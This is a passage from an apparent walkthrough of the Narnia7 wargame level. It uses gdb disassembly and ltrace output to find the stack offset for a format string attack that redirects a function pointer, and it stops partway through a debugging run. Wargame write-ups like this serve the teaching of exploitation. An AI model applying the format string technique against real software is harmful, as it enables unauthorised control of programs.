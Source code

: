    0x0804865e <+145>:	movl   $0x80486e0,-0x8c(%ebp)
   0x08048668 <+155>:	mov    0x8(%ebp),%eax
   0x0804866b <+158>:	mov    %eax,0x8(%esp)
   0x0804866f <+162>:	movl   $0x80,0x4(%esp)
   0x08048677 <+170>:	lea    -0x88(%ebp),%eax
   0x0804867d <+176>:	mov    %eax,(%esp)
   0x08048680 <+179>:	call   0x80484c0 <snprintf@plt>
   0x08048685 <+184>:	mov    -0x8c(%ebp),%eax
   0x0804868b <+190>:	call   *%eax
   0x0804868d <+192>:	leave  
   0x0804868e <+193>:	ret    
End of assembler dump.
(gdb) break *0x08048685
{{< / highlight >}}

So disassmble the `vuln` function and set a break point just 
before the call of the function pointer. In the process of this challenge
I learned of a nice way to determine the number of `%x` you need. Using
`ltrace` it's possible to increment the number of `%x`'s until you
see your string in the output again. I'll paste only the correcy output here

{{< highlight console "linenos=table" >}}
narnia7@melinda:/narnia$ ltrace ./narnia7 `python -c "print 'aaaabbbb' + '%x'*7"`
__libc_start_main(0x804868f, 2, 0xffffd774, 0x8048740 <unfinished ...>
memset(0xffffd630, '\0', 128)                                = 0xffffd630
printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
)                   = 27
printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706

)               = 30
printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd62cbefore : ptrf() = 0x80486e0 (0xffffd62c)
) = 41
puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
)                  = 50
sleep(2)                                                     = 0
snprintf("aaaabbbb8048238ffffd688f7ffda940"..., 128, "aaaabbbb%x%x%x%x%x%x%x", 0x8048238, 0xffffd688, 0xf7ffda94, 0, 0x80486e0, 0x61616161, 0x62626262) = 55
puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
)                  = 61
fflush(0xf7fcaac0)                                           = 0
exit(0 <no return ...>
+++ exited (status 0) +++
{{< / highlight >}}

You can see the *aaaa* and *bbbb* at line 14. So we have 7 `%x` to get the second value.

Let's take a look at the stack with that input

{{< highlight console >}}
(gdb) r $(python -c "print 'aaaabbbb' + '%x'*7")
Starting program: /games/narnia/narnia7 $(python -c "print 'aaaabbbb' + '%x'*7")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
